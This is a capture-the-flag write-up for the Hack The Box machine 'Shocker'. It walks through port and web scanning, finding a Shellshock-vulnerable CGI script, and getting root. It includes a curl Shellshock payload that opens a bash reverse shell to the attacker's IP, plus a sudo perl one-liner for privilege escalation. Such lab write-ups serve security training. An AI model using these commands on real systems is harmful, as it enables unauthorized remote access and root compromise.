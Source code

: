 # Shocker

## Information Gathering
10.10.10.56<br>
Shocker<br>

<ul>Software Versions
	<li>Apache httpd 2.4.18</li>
</ul>

## Enumeration
Start with an nmap scan:
```bash
# Nmap 7.92 scan initiated Mon Feb 14 17:59:05 2022 as: nmap -sC -sV -oN nmap/shocker.nmap 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.033s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesnt have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 14 17:59:14 2022 -- 1 IP address (1 host up) scanned in 8.54 seconds

```
There is a web server so I run a Nikto and directory busting scan
```bash
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.56
+ Target Port: 80
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ HEAD Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ GET Server may leak inodes via ETags, header found with file /, inode: 89, size: 559ccac257884, mtime: gzip
+ OPTIONS Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: GET /icons/README: Apache default file found.
```
Directory Busting
```bash
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Mon Feb 14 18:15:19 EST 2022
--------------------------------

http://10.10.10.56:80
--------------------------------
Directories found during testing:

Dirs found with a 200 response:

/

Dirs found with a 403 response:

/cgi-bin/
/icons/
/icons/small/


--------------------------------
Files found during testing:

Files found with a 200 responce:

/index.html
/cgi-bin/user.sh
/icons/README.html


--------------------------------

```
Because there is an older version of Apache running and that there is an exposed cgi-bin with shell script (Also the name of the box is shocker). I do a vulnerability scan to see if there is a shellshock vulnerability.
```bash
# Nmap 7.92 scan initiated Mon Feb 14 18:09:26 2022 as: nmap -p80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh -oN nmap/vulnerbility_scan.nmap 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.028s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://seclists.org/oss-sec/2014/q3/685
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169

# Nmap done at Mon Feb 14 18:09:27 2022 -- 1 IP address (1 host up) scanned in 0.62 seconds
``` 
## Exploitation
There are a few ways to exploit shellschock. You can use a Proxy like BurpSuite, but I found the simpliest way is to use cURL. With the payload
```bash
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.122/1337 0>&1' http://10.10.10.56/cgi-bin/user.sh
```
This will be enough to drop you into a user shell.

## Privilege Escalation
The privilege escalation was pretty straightforward for this box. Simply:
```bash
sudo -l

env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
Checking out <a href="https://gtfobins.github.io/#">GTFObins</a>, searching "perl" and clicking "sudo" gives you a one-liner to escalate
```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```